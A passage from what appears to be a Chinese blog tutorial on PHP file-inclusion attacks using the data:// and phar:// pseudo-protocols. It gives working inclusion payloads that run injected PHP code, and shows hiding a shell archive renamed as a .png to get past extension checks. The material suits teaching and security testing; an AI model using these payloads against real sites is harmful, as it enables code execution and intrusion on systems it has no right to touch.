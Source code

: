 

<img src="https://i-blog.csdnimg.cn/blog_migrate/51c659f7817229a0a7c325e57f449008.png" alt="" style="max-height:385px; box-sizing:content-box;" />


这里我们就向user 传入了 123123的内容

### data://  协议

条件是  双on (fopen/include)

```undefined
该协议 可以将 php代码 通过 协议发送并且执行
```

##### 用法

```cobol
?file=data://text/plain,<?php phpinfo()?>
 
 
 
?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
 
 
base64加密后
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/ba7ce98358d2826084f96069b152b12e.png" alt="" style="max-height:579px; box-sizing:content-box;" />




### phar://协议

```cobol
这个伪协议可以访问 解压包中的文件的内容
 
phar://[解压包路径/被解压文件名称]
```

我们首先创建一个 shell.zip

里面是 shell.php 内容为 <?php echo 'hello';?>

然后来访问

```cobol
?file=phar://./shell.zip/shell.php
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/d268a4f89e97bd72f29b9c4c54849367.png" alt="" style="max-height:218px; box-sizing:content-box;" />


#### 注意 这个协议无视后缀名

shell.zip 该为 shell.png
